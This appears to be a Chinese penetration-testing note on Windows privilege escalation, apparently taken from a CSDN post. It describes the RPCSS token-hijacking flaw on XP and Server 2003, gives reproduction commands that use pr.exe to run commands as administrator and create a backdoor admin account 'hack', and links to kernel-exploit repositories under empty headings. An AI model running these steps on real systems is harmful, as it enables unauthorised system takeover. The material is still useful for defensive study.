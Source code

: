 > https://blog.csdn.net/qq_36119192/article/details/84562454

受影响系统： 

- Microsoft Windows XP x64 SP2 
- Microsoft Windows XP x64 
- Microsoft Windows XP SP3 
- Microsoft Windows XP SP2 
- Microsoft Windows Server 2003 SP2 
- Microsoft Windows Server 2003 SP1

漏洞原因

- RPCSS服务没有正确地隔离 NetworkService 或 LocalService 帐号下运行的进程，本地攻击者可以利用令牌劫持的方式获得权限提升。成功利用此漏洞的攻击者可以完全控制受影响的系统，攻击者可随后安装程序；查看、更改或删除数据；或者创建拥有完全[用户权限](https://so.csdn.net/so/search?q=用户权限&spm=1001.2101.3001.7020)的新帐户。

复现

- ```
    cmd.exe
    pr.exe
    都传到靶机
    ```

- ```
    setp  "C:\xxxx\xxxx\cmd.exe"  把当前终端的执行程序设置成我们上传的 cmd.exe
    pr.exe "whoami" 就可以以管理员的权限执行系统命令了
    
    pr.exe "net user hack 123 /add"   #新建一个hack用户，密码为 123
    pr.exe "net localgroup administrators hack /add" #将hack用户加入administrators管理员组
    ```


### 内核溢出漏洞提权：

> [Windows内核溢出漏洞提权：](onenote:https://d.docs.live.net/ad8ceb1c3ec7c2dd/OneNote/工具/metasploit.one#meterpreter后渗透攻击&section-id={733527F8-846B-44ED-8D9C-078C2B969E5F}&page-id={B4B3892B-C777-4838-A419-90C9E38DAEA5}&end)

```url
1) https://github.com/Ascotbe/Kernelhub/blob/master/README.CN.md
2) https://github.com/SecWiki/windows-kernel-exploits
3) https://github.com/lyshark/Windows-exploits
4) https://github.com/klsfct/getshell
5) https://github.com/ianxtianxt/win-exp-、
```

#### ms15-051:

#### Win32k 特权提升漏洞(MS16-135)(CVE-2016-7255)

#### CVE-2021-1675（Windows Print Spooler 远程代码执行漏洞）

### RDP&Desktop Session Hijack

### 绕过UAC提权：
